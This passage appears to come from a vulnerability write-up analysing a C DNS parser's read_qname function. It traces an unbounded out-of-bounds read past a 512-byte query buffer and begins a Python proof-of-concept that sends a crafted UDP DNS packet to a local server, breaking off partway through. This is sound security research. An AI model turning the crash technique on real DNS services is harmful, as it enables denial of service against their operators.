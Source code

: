 ```
const char * read_qname(const char packet_ptr[], const char packet_start[], char domain[]) {
    const char *msg_ptr = packet_ptr;
    const char *saved_ptr = packet_ptr;
    char len;
    int offset = 0;

    domain[0] = '\0';

    while (*msg_ptr) {
        if ((*msg_ptr & 0xC0) == 0xC0) {
            if (saved_ptr == packet_ptr){
                saved_ptr = msg_ptr;
            }
            offset = ((*msg_ptr & 0x3F) << 8) | msg_ptr[1];
            msg_ptr = packet_start + offset;
        } else {
            len = *msg_ptr++;
            strncat(domain, msg_ptr, len);
            msg_ptr += len;
            if (*msg_ptr != 0) {
                strcat(domain, ".");
            }
        }
    }
    if (offset) {
        return saved_ptr + 2;
    } else {
        return msg_ptr + 1;
    }
}
```

So we can see here, `msg_ptr` is dereferenced at two points, both to ge the value of `len` and to check if a `.` needs to be appended to `domain`. Looking at the assembly, it looks like the crash occurs at the dereference in the if then statement. Now for how this bug manifests itself. We see that the `msg_ptr` ptr is incremented by length, without any apparent limit. The `msg_ptr` ptr is set equal to the `packet_ptr` char ptr.

Let's see where the `msg_ptr` char ptr value originates. It is passed in as an argument when called in `read_records`, which `read_records` takes in as an argument also called `packet_ptr`. It is called from `read_packet`, which also takes it as an argument called `packet`. This is called from the `process_query` function, which is where the char buffer is actually established. The char buffer is called `query_buff`, and has a size of `PACKET_SIZE` bytes, which is defined as `512`. So the buffer size is `512`.

So, we see that if we can send it a sufficiently large enough packet, we could cause the buffer it reads from to extend past the end of the buffer, and after a long enough "read overflow", we can reach an invalid read address (either an address that is not mapped, or without read permission).

So when we run this code (`poc.py`):

```
import socket

if __name__ == "__main__":
    #print("poc")
    conn = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)

    conn.connect(("127.0.0.1", 10053))


    ID = b"\x12\x23"
    FLAGS = b"\x01\x00"
    QDCOUNT = b"\x00\x01"
    ANCOUNT = b"\x00\x00"
```